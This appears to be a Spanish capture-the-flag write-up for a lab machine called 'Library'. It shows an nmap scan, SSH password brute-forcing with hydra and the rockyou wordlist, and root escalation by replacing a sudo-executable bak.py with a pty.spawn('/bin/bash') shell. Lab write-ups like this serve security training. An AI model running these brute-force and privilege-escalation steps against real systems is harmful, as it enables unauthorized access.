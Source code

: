 # Library

## Escaneo de puertos

```bash
nmap -sV -O ip
```

![image](1.png)

Vemos que tiene un servicio http y entramos en la pagina y encontramos lo siguiente

![image](2.png)

Vemos que hay un nombre de usuario que se llama `meliodas` y como tenemos un servicio `ssh` nos intentaremos conectar mediante `ssh` al usuario `meliodas` para ello le haremos fuerza bruta con hydra

## Hydra

Ahora le haremos fuerza bruta con hydra para ver si podemos conseguir la contraseña

```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.156.201 -t 4
```

-l: para especificar el nombre de un usuario
-P: para un diccionario de contraseña
-t: los hilos que quiere que se ejecuten a la vez

Una vez terminado el hydra hemos encontrado la contraseña que es `iloveyou1`

![image](3.png)

Ahora nos intentaremos conectar por ssh

## SSH

Efectivamente tenemos acceso a SSH de `meliodas`

![image](4.png)

Una vez dentro hacemos `ls` y nos encontramos dos archivos uno que se llama `bak.py` y otro que se llama `user.txt` y le hacemos `cat` al `user.txt` y encontramos la primera flag

![image](5.png)

## Escalada de privilegios

1. Eliminamos el archivo protegido (`bak.py`). `rm bak.py`
2. Creamos un nuevo `bak.py` con un intento fallido de ejecutar un comando en Python.

    ```bash
    echo "python -c 'import pty;pty.spawn("/bin/bash")'" > bak.py
    ```

3. Corregir el error escribiendo correctamente el código Python:

```python
`import pty; pty.spawn("/bin/bash")`    
```

Este comando invoca una shell interactiva (`/bin/bash`).
4.  Ejecutar el script con `sudo`, obteniendo una shell como root.

![image](6.png)
